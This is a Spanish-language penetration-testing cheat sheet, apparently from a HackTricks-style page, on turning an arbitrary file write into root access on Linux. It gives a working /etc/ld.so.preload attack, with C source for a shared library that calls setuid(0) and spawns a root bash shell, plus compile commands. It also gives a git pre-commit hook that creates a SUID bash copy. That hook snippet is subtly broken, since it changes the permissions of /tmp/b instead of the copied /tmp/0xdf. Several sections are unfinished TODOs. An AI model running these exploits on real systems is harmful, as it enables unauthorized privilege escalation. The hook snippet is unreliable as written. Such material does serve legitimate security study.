 # Arbitrary File Write to Root

### /etc/ld.so.preload

Este archivo se comporta como la variable de entorno **`LD_PRELOAD`** pero también funciona en **binarios SUID**.\
Si puedes crearlo o modificarlo, simplemente puedes agregar una **ruta a una biblioteca que se cargará** con cada binario ejecutado.

Por ejemplo: `echo "/tmp/pe.so" > /etc/ld.so.preload`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unlink("/etc/ld.so.preload");
setgid(0);
setuid(0);
system("/bin/bash");
}
//cd /tmp
//gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

### Ganchos de Git

[**Ganchos de Git**](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) son **scripts** que se **ejecutan** en varios **eventos** en un repositorio de git, como cuando se crea un commit, se realiza un merge... Entonces, si un **script o usuario privilegiado** está realizando estas acciones con frecuencia y es posible **escribir en la carpeta `.git`**, esto puede ser utilizado para **escalada de privilegios**.

Por ejemplo, es posible **generar un script** en un repositorio de git en **`.git/hooks`** para que siempre se ejecute cuando se crea un nuevo commit:

{% code overflow="wrap" %}
```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/b' > pre-commit
chmod +x pre-commit
```
{% endcode %}

### Archivos Cron y de tiempo

TODO

### Archivos de Servicio y Socket

TODO

### binfmt\_misc

El archivo ubicado en `/proc/sys/fs/binfmt_misc` indica qué binario debe ejecutar qué tipo de archivos. TODO: verificar los requisitos para abusar de esto y ejecutar un shell reverso cuando se abre un tipo de archivo común.
